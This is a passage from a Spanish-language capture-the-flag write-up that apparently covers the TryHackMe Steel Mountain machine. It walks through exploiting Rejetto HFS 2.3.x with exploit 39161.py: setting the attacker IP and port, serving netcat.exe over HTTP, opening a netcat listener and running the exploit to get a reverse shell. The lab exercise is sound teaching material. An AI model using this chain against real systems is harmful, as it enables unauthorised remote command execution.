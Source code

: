 Para realizar la maquina sin metasploit, tendremos que enumerarla con nmap y utilzar un exploit.

Utilizaremos la herramienta searchsploit para buscar algun exploit que nos pueda servir de utilidad.

![](/assets/images/thm-steelmountain/6.JPG)

En mi caso utilizaremos -> Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) | windows/remote/39161.py

Utilizaremos searchsploit -m 39161 para bajarnos el exploit y echarle un vistazo.

Vemos que tiene información acerca de la vulnerabilidad y nos indica como ejecutar correctamente el exploit.

![](/assets/images/thm-steelmountain/20.JPG)

1-  Cambiaremos estas dos variables por nuestra dirección ip (tun0) y el puerto. (Recomiendo dejar el 443)

    ip_addr = "10.9.8.85" #local IP address
    local_port = "443" # Local Port number

2-Tenemos que tener un servidor web corriendo con el binario de netcat.exe, para ello nos iremos a la ruta /usr/share/windows-binaries y ejecutaremos el comando -> python3 -m httpserver 80

3-Tener una interfaz de netcat en escucha por el puerto 443 -> nc -lvnp 443

4-Ejecutar el exploit utilzando los parametros que nos indica -> python 39161.py 10.10.180.90 8080
